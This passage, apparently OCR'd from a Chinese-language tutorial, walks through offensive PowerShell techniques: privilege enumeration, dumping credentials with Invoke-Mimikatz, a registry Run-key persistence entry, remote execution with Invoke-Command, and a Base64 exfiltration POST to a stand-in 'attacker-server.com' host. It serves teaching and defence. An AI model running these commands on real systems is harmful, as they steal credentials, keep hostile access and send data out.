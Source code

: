可以使用 PowerShell 检查特权提升的机会。例如，以下 PowerShell 命令检查当前用户的权限：

```
 whoami /all
```

该命令显示当前用户的信息，包括其组成员身份和权限。

## 凭证转储

PowerShell 常被用于从内存中转储凭证。以下示例演示了使用`Mimikatz` PowerShell 模块，这是一款流行的凭证提取工具：

```
 # Load Mimikatz module
Import-Module .\mimikatz.ps1
# Run Mimikatz command to dump credentials
Invoke-Mimikatz -DumpCreds
```

该脚本导入`Mimikatz`模块并执行`Invoke-Mimikatz` cmdlet，从内存中提取凭据。

## 持久性

PowerShell 可以用来在被攻击的系统上建立持久性。例如，以下脚本会添加一个注册表项，在系统启动时执行 PowerShell 脚本：

```
 # Create a registry key for persistence
New-Item -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MyScript" -Value "powershell.exe -ExecutionPolicy Bypass -File C:\Path\To\MyScript.ps1"
```

该脚本创建一个注册表项，确保每次用户登录时都会执行 PowerShell 脚本。

## 横向移动

PowerShell 能够远程执行命令，这使得它在网络中进行横向移动时非常有价值。以下示例使用 PowerShell 远程执行命令：

```
 # Enable PowerShell remoting on the target machine
Enable-PSRemoting -Force
# Run a command on the remote machine
Invoke-Command -ComputerName TargetMachine -ScriptBlock { Get-Process }
```

在此示例中，目标机器上启用了 PowerShell 远程功能，然后执行一个命令（**Get-Process**）。需要注意的是，许多 cmdlet 都支持`-ComputeName`参数，这使得可以在远程系统上执行特定命令。

## 数据外泄

PowerShell 可以通过各种技术进行数据外泄。一个常见的方法是将数据编码为 Base64 并通过网络发送。以下脚本演示了这一过程：

```
 # Encode and send data to a remote server
$data = "SensitiveData"
$encodedData = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($data))
Invoke-WebRequest -Uri "http s://attac ker-server.com/upload.php" -Method POST -Body $encodedData
```
